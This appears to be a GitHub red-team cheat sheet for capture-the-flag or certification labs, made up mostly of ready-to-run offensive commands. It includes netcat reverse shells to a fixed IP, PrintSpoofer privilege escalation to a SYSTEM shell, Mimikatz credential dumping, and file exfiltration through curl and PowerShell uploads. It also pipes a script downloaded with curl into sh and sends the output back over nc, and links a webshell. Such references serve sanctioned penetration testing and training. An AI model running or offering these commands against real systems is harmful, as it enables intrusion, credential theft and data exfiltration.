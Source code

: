 # Red Team Cheat Sheet

Useful Quick Commands - Linux

```bash
# Find folders where the user has write permission
find /home -type d -writable -user $(whoami)
# Find flags
find / -name "flag.txt" -print -quit 2>/dev/null
find / -type f \( -name "local.txt" -o -name "proof.txt" -o -name "user.txt" -o -name "root.txt" -o -name "flag.txt" \) -print -quit 2>/dev/null
# Linux - Find files containing keyword
find '/var/www' -type f -exec grep -l 'password' {} + 2>/dev/null
grep -rnw '/home/svc' -e 'password' 2>/dev/null
```

Useful Quick Commands - Windows

```bash
# Windows runas command
runas /user:backupadmin cmd
```

Stabilize reverse shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $fs = [System.IO.File]::OpenRead("C:\Users\Public\test.out"); $content = New-Object System.Net.Http.MultipartFormDataContent; $fileContent = New-Object System.Net.Http.StreamContent($fs); $fileContent.Headers.ContentDisposition = New-Object System.Net.Http.Headers.ContentDispositionHeaderValue("form-data"); $fileContent.Headers.ContentDisposition.Name = '"file"'; $fileContent.Headers.ContentDisposition.FileName = '"test.out"'; $content.Add($fileContent); $client.PostAsync("http://192.168.45.199/", $content).Wait(); $client.Dispose()

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
https://raw.githubusercontent.com/voidexec/sec/main/webshells/shell.php
```

# Windows

PrintSpoofer (Abusing `SeImpersonatePrivilege`)

https://github.com/itm4n/PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

https://github.com/int0x33/nc.exe/

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz

https://github.com/ParrotSec/mimikatz

```powershell
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
# Usage
privilege::debug
sekurlsa::logonpasswords full
```

# Linux

```powershell
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # attacker
curl http://192.168.45.145/linpeas.sh | sh | nc 192.168.45.145 9002 # victim
```
